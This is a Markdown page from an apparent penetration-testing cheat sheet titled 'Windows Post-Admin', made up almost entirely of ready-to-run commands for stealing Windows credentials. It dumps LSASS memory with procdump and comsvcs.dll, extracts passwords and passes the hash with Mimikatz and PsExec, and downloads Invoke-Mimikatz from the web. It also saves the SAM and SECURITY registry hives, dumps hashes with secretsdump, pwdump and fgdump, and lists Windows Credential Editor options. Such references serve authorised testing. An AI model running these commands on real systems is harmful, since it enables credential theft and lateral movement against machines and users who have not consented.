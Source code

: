 ```yaml
---
layout: default
title: Windows Post-Admin
parent: Post-Admin/Root
---
```


# Windows Post-Admin
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Manual Checks
### Is Credential Guard Enabled?
Windows Defender Credential Guard prohibits dumping of LSASS
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```
- Check `SecurityServicesConfigured` and `SecurityServicesRunning` are set to `1` or `2`
    - `1` = CredentialGuard
    - `2` = Hypervisor enforced Code Integrity

## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

---

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg.exe save hklm\sam <output path>
reg.exe save hklm\security <output path>
reg.exe save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```

## FGDump/PWDump
Dump hashes from `lsass` on the target machine
```shell
fgdump.exe
python pydump.py
pwdump7.exe
```

## Windows Credential Editor (WCE)
```shell
wce{32|64}.exe -l             # List current sessions & NTLM creds (default)
wce{32|64}.exe -r             # List current sessions & NTLM creds indefinitely
wce{32|64}.exe -e             # List current sessions & NTLM creds every time a logon event occurs
wce{32|64}.exe -s <NTLM>      # Change NTLM creds of current session
wce{32|64}.exe -c <NTLM>      # Run in new session with specified NTLM creds
wce{32|64}.exe -i <LUID>      # Specify LUID to use for current session
wce{32|64}.exe -d             # Delete NTLM creds from current session
wce{32|64}.exe -a <addresses> # Use addresses to read sessions and NTLM creds from memory (from GETLSASRVADDR.EXE)
wce{32|64}.exe -f             # Force 'safe mode'
wce{32|64}.exe -g             # Generate LM & NT hash
wce{32|64}.exe -K             # Dump Kerberos tickets to file
wce{32|64}.exe -k             # Read Kerberos tickets from file and insert into Windows cache
wce{32|64}.exe -w             # Dumps plaintext passwords
```
- `-o <file>` outputs to file
- <https://github.com/returnvar/wce>